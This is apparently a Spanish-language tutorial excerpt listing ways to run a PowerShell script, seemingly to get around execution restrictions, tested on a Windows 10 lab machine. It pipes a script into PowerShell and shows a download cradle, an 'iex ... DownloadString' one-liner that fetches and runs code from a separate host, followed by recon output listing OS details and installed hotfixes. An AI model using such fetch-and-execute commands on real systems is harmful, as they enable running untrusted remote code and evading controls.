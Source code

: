 Pues veamos algunas de las numerosas soluciones al _problema_:

* Table of Contents
{:toc}

## Copiar y pegar

Tal cual. Basta con copiar y pegar el contenido del script. Porque entonces ya no es un script, es _interactivo... :)_

## echo + pipe

Obtener el contenido del script con `echo`, `type` p similar (`Get-Content`, pasa ser más _posh_) y pasárselo vía pipe a... una powershell:

```posh
PS C:\users\ieuser> Get-Content Get-BasicInfo.ps1 | powershell -noprofile -
Get-Content Get-BasicInfo.ps1 | powershell -noprofile -
Cannot load PSReadline module.  Console is running without PSReadline.


Caption                 : Microsoft Windows 10 Enterprise Evaluation
InstallDate             : 7/21/2016 9:12:03 AM
ServicePackMajorVersion : 0
OSArchitecture          : 64-bit
BootDevice              : \Device\HarddiskVolume1
BuildNumber             : 14393
CSName                  : MSEDGEWIN10




Source        Description      HotFixID      InstalledBy          InstalledOn              
------        -----------      --------      -----------          -----------              
MSEDGEWIN10   Update           KB3199986     NT AUTHORITY\SYSTEM  12/13/2016 12:00:00 AM   
MSEDGEWIN10   Security Update  KB3202790     NT AUTHORITY\SYSTEM  12/13/2016 12:00:00 AM   
MSEDGEWIN10   Update           KB3201845     NT AUTHORITY\SYSTEM  12/13/2016 12:00:00 AM
```

## Descargar de URL + Invoke Expression

```posh
PS C:\users\ieuser> powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://10.254.0.1:8000/Get-BasicInfo.ps1')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://10.254.0.1:8000/Get-BasicInfo.ps1')"


Caption                 : Microsoft Windows 10 Enterprise Evaluation
InstallDate             : 7/21/2016 9:12:03 AM
ServicePackMajorVersion : 0
OSArchitecture          : 64-bit
BootDevice              : \Device\HarddiskVolume1
BuildNumber             : 14393
CSName                  : MSEDGEWIN10




Source        Description      HotFixID      InstalledBy          InstalledOn              
------        -----------      --------      -----------          -----------              
MSEDGEWIN10   Update           KB3199986     NT AUTHORITY\SYSTEM  12/13/2016 12:00:00 AM   
MSEDGEWIN10   Security Update  KB3202790     NT AUTHORITY\SYSTEM  12/13/2016 12:00:00 AM   
MSEDGEWIN10   Update           KB3201845     NT AUTHORITY\SYSTEM  12/13/2016 12:00:00 AM
```